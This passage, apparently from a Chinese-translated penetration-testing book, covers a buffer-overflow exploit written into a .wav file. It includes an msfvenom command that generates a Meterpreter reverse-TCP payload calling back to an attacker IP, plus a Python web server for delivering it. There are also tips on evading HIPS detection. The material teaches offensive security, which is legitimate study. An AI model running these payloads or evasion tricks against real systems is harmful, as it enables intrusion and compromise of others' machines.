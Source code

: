 ```
exploit = fill + eip + offset +adjustment + shell
open('exploit.wav', 'w').close()
writeFile = open (filename, "w")
writeFile.write(exploit)
writeFile.close()
```

然而，这种方法存在一个问题。如果堆栈调整中有坏字符，则需要通过编码来消除这些字符。由于您通常不会在以后修改堆栈调整，因此可以将其作为 shell 的一部分，并对整个代码块进行编码。我们将在反转 Metasploit 模块时完成该过程。

### 提示

确保在代码中添加有关堆栈调整的注释；否则，当您尝试扩展此漏洞或使用其他有效负载时，您将非常沮丧。

作为一个附带的好处，如果我们使用这种方法而不是使用 NOP 滑橇，那么 HIPS 就不太可能捕获该漏洞。现在，我们已经完成了所有这些，认识到有一种更简单的方法可以使用标准负载获得访问权限。

### 提示

如果您仍然需要 NOP 进行真正的攻击，请确保使用 Metasploit 提供的 NOP 生成器。代码不使用“\x90”指令，而是执行无意义的数学运算。它们占用堆栈上的空间并提供相同的功能。

# 了解本地开发的目的

需要注意的是通过在系统上执行有效负载可以实现相同的访问。生成这样的有效载荷只需要我们运行以下命令：

```
msfvenom -p windows/meterpreter/reverse_nonx_tcp lhost=192.168.195.169 lport=443 -b '\x00' -f exe -o /tmp/exploit.exe

```

然后，使用以下命令启动 Python web 服务器：

```
python -m SimpleHTTPServer

```

下图突出显示了相关命令的输出：

![Understanding the purpose of local exploits](img/image00406.jpeg)

然后，通过系统上的浏览器下载并执行有效负载，以获得所需的结果。

![Understanding the purpose of local exploits](img/image00407.jpeg)
